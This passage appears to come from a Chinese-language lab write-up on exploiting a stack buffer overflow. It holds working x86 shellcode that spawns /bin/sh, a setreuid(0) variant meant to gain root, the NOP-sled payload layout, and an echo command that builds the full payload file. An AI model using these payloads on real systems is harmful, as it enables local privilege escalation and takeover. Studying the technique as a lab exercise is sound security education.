 ```python
shellcode="\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
```

因为会填充NOP所以shellcode的位置可以不精确，设为之前测试的buf[300]的地址：0xffffce8c

因为shellcode的大小是45，所以构造如下：
$$
255*NOP+shellcode+10*address
$$


测试，成功获得shell：

![image-20211010172456847](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031939448.png)

5、在centos上进行测试，首先输入300*a，得到获得新的buf[300]地址：0xffffd42c

![image-20211010172611417](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031940958.png)

同样的思路，将地址替换为0xffffd42c后进行测试：

![image-20211010172644126](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031940413.png)

6、但是这里id仍然是hacker，并没有获取root权限，在网上找了另外一个Linux/x86 - setreuid(0) + execve("/bin/sh") 的shellcode ：

```c
char shellcode[] = ""
	"\x31\xc0"		// clear eax, as we don't know its state
	"\xb0\x46"		// syscall setreuid
	"\x31\xdb"		// real user ID = 0
	"\x31\xc9"		// effective user ID = 0
	"\x99"			// saved set-user-ID = 0 (using EDX)
	"\xcd\x80"		// call it

	"\x96"			// clear eax, as we don't know its state after former syscall
	"\xb0\x0b"		// syscall execve
	"\x53"			// NULL string terminator
	"\x68\x2f\x2f\x73\x68"	// //sh
	"\x68\x2f\x62\x69\x6e"	// /bin
	"\x89\xe3"		// pointer to above string - path to the program to execve
	"\xcd\x80";		// call it
```

因为shellcode长29bytes所以填充了271*NOP+shellcode(29bytes)+address。构造输入文件centos：

```shell
echo -ne "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\xb0\x46\x31\xdb\x31\xc9\x99\xcd\x80\x96\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff" >centos
```

